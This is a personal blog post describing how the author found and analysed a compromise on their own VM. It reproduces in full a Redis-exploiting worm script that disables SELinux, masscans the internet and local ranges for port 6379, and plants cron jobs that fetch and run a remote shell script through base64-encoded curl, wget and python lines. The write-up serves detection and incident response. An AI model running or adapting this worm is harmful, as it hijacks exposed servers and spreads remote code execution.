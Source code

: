 +++
title = 'A Journey into Unseen Threats on our VM'
date = 2024-05-04T19:51:57.5757+05:30
tags =['hacking']
+++ 

As the sun set on a typical Saturday evening, I found myself engrossed in a blog titled "[Visualizing Malicious IP Addresses.](https://romeov.github.io/malicious_ip_addresses/malicious_ip_analysis.html)" The author shared clever ways to detect unauthorized attempts to access virtual machines via SSH, using commands like:

```sh
$ journalctl --since "-1d" -u sshd | grep "Failed password" | wc -l
$ journalctl --since "-1d" -u sshd | grep "Failed publickey" | wc -l
```

Curious, I decided to try these commands on our own VM. To my relief, the output was zero—no unauthorized login attempts. But my curiosity was piqued. I delved deeper into journalctl, discovering a command to display all Systemd logs with process IDs:

```sh
journalctl -f -o verbose
```

Upon executing the query on our VM, I encountered an intriguing error that immediately captured my attention.

```
 MESSAGE=/etc/.httpd/.../httpd: line 43: pnscan: command not found
```

"Pnscan?" I muttered to myself, furrowing my brows. A quick Google search revealed that "pnscan" is a tool for scanning network ports—a tool we certainly hadn't authorized on our VM.

Determined to unravel this mystery, I extracted the process ID from the journalctl logs and ventured into the depths of the `/proc` directory. Inside the PID folder, I hoped to glean more insights into this rogue process.

My first stop was the `cmdline` file, where I discovered the command that initiated the process 

```
 `/bin/bash/etc/.httpd/.../httpd`
```

It seemed innocuous enough—a command to run the Apache server. But something didn't add up. Next, I turned my attention to the `fd` folder, hoping to find clues in the standard output and standard error streams. To my surprise, there was nothing there—except for a mysterious file named `255`.

I cat the content of of the file and i got the below content

```sh
#!/bin/bash
setenforce 0 2>/dev/null
ulimit -u 50000
sleep 1
iptables -I INPUT 1 -p tcp --dport 6379 -j DROP 2>/dev/null
iptables -I INPUT 1 -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT 2>/dev/null
sleep 1
      
rm -rf .dat .shard .ranges .lan 2>/dev/null
sleep 1
echo 'config set dbfilename "backup.db"' > .dat
echo 'save' >> .dat
echo 'flushall' >> .dat
echo 'config set dir "/var/spool/cron/"' >> .dat
echo 'config set dbfilename "root"' >> .dat
echo 'set backup1 "\n\n\n*/2 * * * * echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"' >> .dat
echo 'set backup2 "\n\n\n*/3 * * * * echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"' >> .dat
echo 'set backup3 "\n\n\n*/4 * * * * echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"' >> .dat
echo c2V0IGJhY2t1cDQgIlxuXG5cbkBob3VybHkgIHB5dGhvbiAtYyBcImltcG9ydCB1cmxsaWIyOyBwcmludCB1cmxsaWIyLnVybG9wZW4oXCdodHRwOi8vXFxcXHMublxcYS1jXFxzLmNcXG9cbS90LnNoXCcpLnJlYWQoKVwiID4uMTtjaG1vZCAreCAuMTsuLy4xXG5cbiIK|base64 -d >>.dat
echo 'save' >> .dat
echo 'config set dir "/tmp"' >> .dat
echo 'flushall' >> .dat
echo 'config set dir "/var/spool/cron/crontabs"' >> .dat
echo 'save' >> .dat
echo 'set backup1 "\n\n\n*/2 * * * * root echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"' >> .dat
echo 'set backup2 "\n\n\n*/3 * * * * root echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"' >> .dat
echo 'set backup3 "\n\n\n*/4 * * * * root echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"' >> .dat
echo c2V0IGJhY2t1cDQgIlxuXG5cbkBob3VybHkgIHB5dGhvbiAtYyBcImltcG9ydCB1cmxsaWIyOyBwcmludCB1cmxsaWIyLnVybG9wZW4oXCdodHRwOi8vXFxcXHMublxcYS1jXFxzLmNcXG9cbS90LnNoXCcpLnJlYWQoKVwiID4uMTtjaG1vZCAreCAuMTsuLy4xXG5cbiIK|base64 -d >>.dat
echo 'config set dir "/etc/cron.d/"' >> .dat
echo 'config set dbfilename "zzh"' >> .dat
echo 'save' >> .dat
echo 'config set dir "/etc/"' >> .dat
echo 'config set dbfilename "crontab"' >> .dat
echo 'save' >> .dat
sleep 1
pnx=pnscan
[ -x /usr/local/bin/pnscan ] && pnx=/usr/local/bin/pnscan
[ -x /usr/bin/pnscan ] && pnx=/usr/bin/pnscan
while true
do
for x in $( echo -e "47\n39\n8\n121\n106\n120\n123\n65\n3\n101\n139\n99\n63\n81\n44\n18\n119\n100\n42\n49\n118\n54\n1\n50\n114\n182\n52\n13\n34\n112\n115\n111\n116\n16\n35\n117\n124\n59\n36\n103\n82\n175\n122\n129\n45\n152\n159\n113\n15\n61\n180\n172\n157\n60\n218\n176\n58\n204\n140\n184\n150\n193\n223\n192\n75\n46\n188\n183\n222\n14\n104\n27\n221\n211\n132\n107\n43\n212\n148\n110\n62\n202\n95\n220\n154\n23\n149\n125\n210\n203\n185\n171\n146\n109\n94\n219\n134" | sort -R ); do
for y in $( seq 0 255 | sort -R ); do
$pnx -t512 -R '6f 73 3a 4c 69 6e 75 78' -W '2a 31 0d 0a 24 34 0d 0a 69 6e 66 6f 0d 0a' $x.$y.0.0/16 6379 > .r.$x.$y.o
awk '/Linux/ {print $1, $3}' .r.$x.$y.o > .r.$x.$y.l
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw &
done < .r.$x.$y.l
done
done
done
sleep 1
masscan --max-rate 10000 -p6379 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shard
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .shard
sleep 1
masscan --max-rate 10000 -p6379 192.168.0.0/16 172.16.0.0/16 116.62.0.0/16 116.232.0.0/16 116.128.0.0/16 116.163.0.0/16 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .ranges
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .ranges
sleep 1
ip a | grep -oE '([0-9]{1,3}.?){4}/[0-9]{2}' 2>/dev/null | sed 's/\/\([0-9]\{2\}\)/\/16/g' > .inet
sleep 1
masscan --max-rate 10000 -p6379 -iL .inet | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .lan
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .lan
sleep 60
rm -rf .dat .shard .ranges .lan 2>/dev/null

```


The script appears to conduct a Redis database backup, despite our VM not utilizing Redis. Of particular interest is the line:

```bash
masscan --max-rate 10000 -p6379 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shard
```

1. **masscan**: Performs a network scan.
   - `--max-rate 10000`: Limits packet sending to 10,000 per second.
   - `-p6379`: Targets port 6379, commonly associated with Redis.
   - `--shard $( seq 1 22000 | sort -R | head -n1 )/22000`: Divides the scan into shards, choosing a random shard from 1 to 22000.
   - `--exclude 255.255.255.255 0.0.0.0/0`: Excludes specific IP ranges from the scan.
   - `2>/dev/null`: Suppresses error messages.
   
2. **`| awk '{print $6, substr($4, 1, length($4)-4)}'`**:
   - Processes `masscan` output to extract status and IP/port information.
   
3. **`| sort | uniq > .shard`**:
   - Sorts and removes duplicates from the extracted data, saving it to a file named `.shard`.

In summary, the script attempts to scan and connect to Redis servers across different networks, possibly with intentions to execute commands outlined in the `.dat` file, which could be malicious. Furthermore, it tries to disable SELinux and adjust user limits, suggesting unauthorized access and system modification. This underscores the importance of vigilance in monitoring and securing systems against potential threats.

the content of .dat file was 

```sh
config set dbfilename "backup.db"
save
flushall
config set dir "/var/spool/cron/"
config set dbfilename "root"
set backup1 "\n\n\n*/2 * * * * echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"
set backup2 "\n\n\n*/3 * * * * echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"
set backup3 "\n\n\n*/4 * * * * echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"
set backup4 "\n\n\n@hourly  python -c \"import urllib2; print urllib2.urlopen(\'http://\\\\s.n\\a-c\\s.c\\o\m/t.sh\').read()\" >.1;chmod +x .1;./.1\n\n"
save
config set dir "/tmp"
flushall
config set dir "/var/spool/cron/crontabs"
save
set backup1 "\n\n\n*/2 * * * * root echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"
set backup2 "\n\n\n*/3 * * * * root echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"
set backup3 "\n\n\n*/4 * * * * root echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"
set backup4 "\n\n\n@hourly  python -c \"import urllib2; print urllib2.urlopen(\'http://\\\\s.n\\a-c\\s.c\\o\m/t.sh\').read()\" >.1;chmod +x .1;./.1\n\n"
config set dir "/etc/cron.d/"
config set dbfilename "zzh"
save
config set dir "/etc/"
config set dbfilename "crontab"
save
```

This script setup cron job to excute the script from remote url `http://s.na-cs.com/b2f628/b.sh`encoded in base64 format (`echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64`), I encountered an unexpected roadblock—the URL was inaccessible. Despite my efforts to uncover the script's intentions through the `/proc` file system, my investigation yielded no further insights.

Ultimately, I made the decision to delete the compromised VM and initiate the creation of a new one, ensuring the integrity of our system's security.

